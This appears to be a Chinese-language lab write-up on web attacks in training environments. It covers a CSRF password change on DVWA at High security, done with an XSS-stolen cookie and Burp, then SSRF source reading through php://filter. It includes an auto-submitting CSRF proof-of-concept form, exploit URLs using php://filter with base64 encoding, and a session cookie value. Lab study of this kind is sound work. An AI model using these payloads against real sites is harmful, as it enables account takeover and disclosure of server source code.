# 一、CSRF
## 概念
* CSRF：跨站请求伪造，是一种挟制用户在当前已登录的Web应用程序上执行非本意操作的攻击方法，允许攻击者诱导用户执行他们并不打算执行的操作。
* 攻击条件：   
（1）一个功能操作。
（2）基于 Cookie 的会话处理。
（3）没有不可预测的请求参数。
## 1. DVWA-High 等级
### 1.1 登录`DVWA`，调整安全等级为 `HIGH`。

### 1.2 选择`CSRF`模块，正常功能调试。
   
输入新密码和确认密码后，点击`chage`即可修改密码。
### 1.3 `F12`查看网络请求，判断是否满足上面三个攻击条件。

|条件|是否满足|说明|
|---|---|---|
|一个功能操作|是|一个修改密码的功能|
|基于 Cookie 的会话处理|是|请求中携带cookie|
|没有不可预测的请求参数|否|请求参数中有个`user_token`,经测试每次都会不同|   
### 1.4 查看网站源码
   
每次都会检查一下请求携带的 `user_token` 和服务端的 `session_token` 是否匹配，而 `user_token` 每次请求都不一样，所以不满足上述三个条件中的第三个条件（没有不可预测的请求参数），所以这个难度下直接通过这个点是无法完成`CSRF`攻击的，只能通过其他方式来满足上述攻击条件后，才能完成此功能点的攻击。
### 1.5 攻击思路
已知 `DVWA` 的安全级别和 `cookie` 中的 `security` 参数有关，如果能够修改 `security` 参数的值为 `low`，那么服务端处理的时候就不会校验 `user_token`,这样就可以使第三个条件满足。用这种方法的前提就是要获取到用户的`cookie`，获取到之后，仿冒用户提交修改密码的请求，这个可以利用网站的 `XSS` 漏洞来获取用户的cookie。
### 1.6 利用`XSS`获取用户`cookie`

```text
 PHPSESSID=p3becs777t1lc5nbkd86ieje05; security=low
```
### 1.7 通过自己账号，提交修改密码请求

### 1.8 使用 `Burp` 抓包，修改请求中的cookie，以及删除没用的 `user_token` 参数

### 1.9 成功修改通过 `XSS`抓取用户的密码

## 2. 使用 Burp 生成 CSRF 利用 POC
### 2.1 使用 `Burp` 生成上面请求的 `CSRF` 的 `POC`


### 2.2 运行访问生成的`POC`代码
```html
 <html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
    <body>
        <form action="http://huanxue.com:8081/vulnerabilities/csrf/">
        <input type="hidden" name="password&#95;new" value="123" />
        <input type="hidden" name="password&#95;conf" value="123" />
        <input type="hidden" name="Change" value="Change" />
        <input type="submit" value="Submit request" />
        </form>
        <script>
        history.pushState('', '', '/');
        document.forms[0].submit();
        </script>
    </body>
 </html>
```
   
* 注：跳转太快，没来得及截图。
# 三、SSRF（file_get_content），要求获取 ssrf.php 的源码；
## 概念
* PHP 伪协议：在 PHP 中，伪协议（Pseudo Protocols） 也被称为 流包装器，这些伪协议以 php:// 开头，后面跟着一些参数，用于指定 要执行的操作 或 需要访问的资源。伪协议表明这些协议并不是一个真实的外部协议，例如 http 或 ftp。PHP 伪协议的出现是为了提供一个 统一的、简洁的 接口来处理 不同的数据流。这些伪协议可以被看作是一种 桥梁，它们允许开发者 使用常规的文件操作函数来处理各种不同的数据流。
* SSRF：服务端请求伪造，是一种由攻击者构造形成，由服务端发起请求的一个安全漏洞。一般情况下，SSRF攻击的目标是从外网无法访问的内部系统。正是因为它是由服务端发起的，所以它能够请求到与它相连而与外网隔离的内部系统。  
* file_get_content：是把整个文件读入一个字符串中。   
* php://filter：是一种元封装器， 设计用于数据流打开时的筛选过滤应用。   
|项目|描述|
|---|---|
|resource|在 php://filter 中，resource 参数是必须的。resource 用于指定 需要进行筛选过滤的数据流。|
|read|read 参数指定一个或多个过滤器用于读操作，多个过滤器之间以管道符 `|` 进行分隔。|
|write|write 参数指定一个或多个过滤器用于写操作，多个过滤器之间以管道符 `|` 进行分隔。|   
示例：
```php
 # 省略过滤器列表实现文本的普通读写操作

 # 通过 php://filter 伪协议指定需要写入数据的文件
 file_put_contents('php://filter/resource=file.txt', 'Hello World');
 # 通过 php://filter 伪协议指定需要读取数据的文件
 $content = file_get_contents('php://filter/resource=file.txt');
```
* convert.base64-encode：convert.base64-encode和 convert.base64-decode使用这两个过滤器等同于分别用 base64_encode()和 base64_decode()函数处理所有的流数据。
## 1. 启动靶场，访问 `SSRF(file_get_content)`
  
## 2. 正常功能演示
   
* 问题：点击后页面刷新，无内容回显   
* 解决：地址栏多了个 `vul`，删除后，重新访问即可   

## 2. 使用 `php://filter` 引入 `ssrf.php`
```url
 http://127.0.0.1/vul/ssrf/ssrf_fgc.php?file=php://filter/resource=ssrf.php
```
   
引入了 `ssrf.php` 的内容，并解析执行了 `ssrf.php`。
## 3. 使用 `base64` 编码，使其不被解析执行，获取 `ssrf.php` 文件内容。
```url
 http://127.0.0.1/vul/ssrf/ssrf_fgc.php?file=php://filter/read=convert.base64-encode/resource=ssrf.php
```

## 4. 将返回内容解码
   
成功获取 `ssrf.php`源码。
# 四、远程代码执行漏洞：Weblogic RCE。